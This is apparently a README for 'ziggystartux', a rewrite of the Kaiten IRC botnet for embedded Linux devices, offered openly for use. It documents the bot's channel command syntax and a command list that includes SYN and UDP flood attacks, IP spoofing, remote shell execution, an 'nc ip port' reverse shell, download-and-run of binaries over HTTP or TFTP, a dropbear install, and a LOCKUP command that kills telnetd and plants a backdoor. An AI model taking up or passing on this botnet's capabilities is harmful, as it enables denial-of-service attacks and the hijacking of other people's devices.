 # ziggystartux
A Kaiten rewrite, with much new functionality, and many fixes for the old stuff! Tailored toward embedded Linux devices, because... well, the internet of things of the new frontier!
<pre>

   oooooo  o                      .oPYo.  o             ooooo                 
      d'                         8       8               8                    
     d'  o8 .oPYo. .oPYo. o    o `Yooo. o8P.oPYo. oPYo.  8  o    o `o  o'     
    d'    8 8    8 8    8 8    8     `8  8 .oooo8 8  `'  8  8    8  `bd'      
   d'     8 8    8 8    8 8    8      8  8 8    8 8      8  8    8  d'`b      
  dooooo  8 `YooP8 `YooP8 `YooP8 `YooP'  8 `YooP8 8      8  `YooP' o'  `o     
 .......:..:....8 :....8 :....8 :.....::..:.....:..:::::..::.....:..:::..     
 ::::::::::::ooP'.::ooP'.::ooP'.:::::::::::::::::::::::::::::::::::::::::     
 ::::::::::::...::::...::::...:::::::::::::::::::::::::::::::::::::::::::     
  
  This is a remake of Kaiten, hacked together from various versions scattered 
  throughout cyberspace. New features include a variety of awesome shell one- 
  liners, ability to upgrade the bot over http (via gcc or static binary), a  
  feature called "HackPkg" that installs binaries without dependencies like   
  wget or tftp, and more! Tip: run GETBB <tftp ip> first to get the most out  
  of this bot (it will install to /var/bin, which is almost always writable). 
  The LOCKUP command will kill telnetd and run a backdoor of your choice (for 
  simplicity we assume you will run it on port 23). This bot is updated often,
  so check back frequently for new killer features and ddos tools. In memory  
  of David Bowie, because he was an awesome musician and passed during the    
  early development of this bot. By ShellzRuS and all the other developers    
  that have worked on Kaiten over the last 20 years.                          
                                                                              
         "Hacking on kaiten is a right of passage" --Kod                      
 
    This is a IRC based distributed denial of service client.  It connects to 
  the server specified below and accepts commands via the channel specified.  
  The syntax is:                                                              
        !<nick> <command>                                                     
  You send this message to the channel that is defined later in this code.    
  Where <nick> is the nickname of the client (which can include wildcards)    
  and the command is the command that should be sent.  For example, if you   
  want to tell all the clients with the nickname starting with N, to send you 
  the help message, you type in the channel:                                  
        !N HELP                                                              
  That will send you a list of all the commands.  You can also specify an     
  astrick alone to make all client do a specific command:                     
        ! SH uname -a                                                        
  There are a number of commands that can be sent to the client:              
        PAN <target> <port> <secs>    = A SYN flooder                         
        UDP <target> <port> <secs>    = An UDP flooder                        
        UNKNOWN <target> <secs>       = Another non-spoof udp flooder         
        NICK <nick>                   = Changes the nick of the client  
        SERVER <server>               = Changes servers              
        GETSPOOFS                     = Gets the current spoofing    
        SPOOFS <subnet>               = Changes spoofing to a subnet          
        DISABLE                       = Disables all packeting from this bot  
        ENABLE                        = Enables all packeting from this bot   
        KILL                          = Kills Ziggy                           
        GET <http address> <save as>  = Downloads a file off the web          
        VERSION                       = Requests version of bot               
        KILLALL                       = Kills all current packeting          
        HELP                          = Displays this                         
        IRC <command>                 = Sends this command to the server      
        SH <command>                  = Executes a command                    
        ISH <command>                 = "Interactive" SH, send to channel
        BASH <command>                = Run a bash command
        SHD <command>                 = Daemonize command                     
        UPDATE <http://server/bot>    = Update this bot 
        HACKPKG <http://server/bin>   = Install binary (no wget dependency)
        INSTALL <http://server/bin>   = Install binary (via wget)             
        BINUPDATE <http://server/bin> = Update a binary (via wget)      
        SCAN <nmap opts>              = Call an nmap wrapper script           
        GETSSH <http:serverdropbear>  = Install dropbear, run on port 30022
        RSHELL <ip port>              = Equates to nohup nc ip port     
        GETBB <tftp server>           = Get a proper busybox (via tftp) 
        LOCKUP <http://server/bin>    = Kill telnet, install a backdoor!
                                                                              
  Remember, all these commands must be prefixed by a ! and the nickname that  
  you want the command to be sent to (can include wildcards). There are no    
  spaces in between the ! and the nickname, and there are no spaces before    
  the !                                                                       
                                                                              
                                - contem on efnet                             
</pre>

